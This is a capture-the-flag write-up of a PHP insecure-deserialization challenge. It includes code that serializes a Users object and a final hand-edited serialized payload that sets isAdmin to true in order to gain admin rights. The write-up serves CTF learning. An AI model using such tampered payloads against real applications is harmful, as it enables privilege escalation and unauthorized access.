



Challenge Description :
### What do you know about OOP?

Looking at the landing page, a classic ref to the Source code.


Checking the source Code we have a Class Users with the attributes:



- string -> username
- string -> password
- boolean -> isAdmin
- string -> id

checking for the win condition we need to be admin, That's a simple deserlization attack , since we contrtol the deseralized data we can create an instance of the object in the runtime


Using the original code to create an instance of the class user with Useranme = 0x21AD and password = password cuz we have those two variables 

```
<?php

class Users
{
    private $username;
    private $password;
    private $isAdmin = false;
    private $id = '';

    public function __construct($username , $password)
    {
        $this -> username = $username;
        $this -> password = $password;
        $this -> isAdmin = false;
    }

    public function __isAdmin(){
        return $this -> isAdmin;
    }

    public function setUsername($username)
    {
        $this -> username = $username;
    }

    public function setPassword($password)
    {
        $this -> password = $password;
    }

    public function getUsername()
    {
        return $this -> username;
    }

    public function getPassword()
    {
        return $this -> password;
    }
}

$user = serialize(new Users("0x21AD" , "yuri"));

echo $user;

?>
```
and we get our payload  :


#### But we have a prefix `Users` appended to all the attributes values.
All we need to do is to either manually modify the payload or use chatgpt (lazy way)!

Just modify the boolean value of isAdminto be 1 which means True and we get our final working payload:

`O:5:"Users":4:{s:8:"username";s:6:"0x21AD";s:8:"password";s:4:"yuri";s:7:"isAdmin";b:1;s:2:"id";s:0:"";}`


